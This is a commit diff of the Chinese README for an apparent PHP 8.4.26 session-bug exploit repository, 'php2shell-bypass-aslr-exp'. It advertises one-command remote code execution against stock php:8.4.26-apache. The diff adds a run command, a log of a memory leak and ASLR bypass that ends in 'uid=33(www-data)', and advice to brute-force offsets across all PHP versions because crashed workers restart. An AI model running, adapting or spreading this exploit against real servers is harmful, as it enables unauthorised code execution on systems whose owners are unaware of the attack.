

Before and after one commit to 0xh34z/php2shell-bypass-aslr-exp, a Markdown page: README.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -1,16 +1,19 @@
-# php2shell — PHP 8.4.26 session 漏洞复现
+# php2shell - 官方环境 无需display_errors，不修改memory_limit
 
 中文 | [English](readme_en.md)
 
-**目标没有变，仍然是 stock 官方 `php:8.4.26-apache` + 官方
-`php.ini-production`：`display_errors=Off`、`display_startup_errors=Off`、
-`memory_limit=128M`、`post_max_size=8M`、单 worker prefork。**
-在完全远程、只用 HTTP、目标页面只有 `<?php echo "OK\n"; ?>`、不写目标侧
+**单 worker prefork。**环境下在完全远程、只用 HTTP、目标页面只有 `<?php echo "OK\n"; ?>`、不写目标侧
 PHP 的约束下，一条命令拿到 RCE：
 
 - stock 官方镜像 + 官方 ini：**5/5**
 - 带符号的同一官方构建（gdb 只用于离线标定，不在交付路径）：**15/15**
 - 单次约 2 秒，worker 不重启，目标 ini 未改
+
+# 通用利用
+
+理论上只要你计算出所有php版本的偏移，然后利用这些偏移批量去fuzz，总有一条fuzz是能rce的。反正worker崩了也会重启，不怕目标打挂。
+
+关于worker，目前单worker不影响目标实现，只影响胜率，在测试环境先临时使用单worker来装逼，完整官方worker环境之后放出。
 
 ## 快速开始（官方 php.ini-production / display_errors=Off / 128M）
 
@@ -27,6 +30,12 @@ cd php2shell-bypass-aslr-exp
 
 # 2) 一条命令：A1 -> B1 泄漏 -> A2 -> B2 -> id
 python3 pure/pwn_pure.py --port 18110
+# [try 1] A1: END-cleanup send_cookie OOM
+# [try 1] B1: stale-id OOB read (chunk base + libphp)
+#       decoded=819208 zval_ptr_dtor=0x7fe00ef5db60 -> libphp=0x7fe00e8ff000
+#       chunk buckets: [('0x7fe00c600000', 7495), ('0x7fe00ee00000', 1095),
+#                       ('0x7fe00cc00000', 87), ('0x7fe00c400000', 79)]
+# [try 1] A2 + B2: main=0x7fe00cc00000 S=0x7fe00ccf8398 zif_system=0x7fe00ed64370
 # [4/4] RCE OK; proof .../out/p1:
 # uid=33(www-data) gid=33(www-data) groups=33(www-data)
 ```
````
Also changed, not shown: readme_en.md (+22 -7 lines).
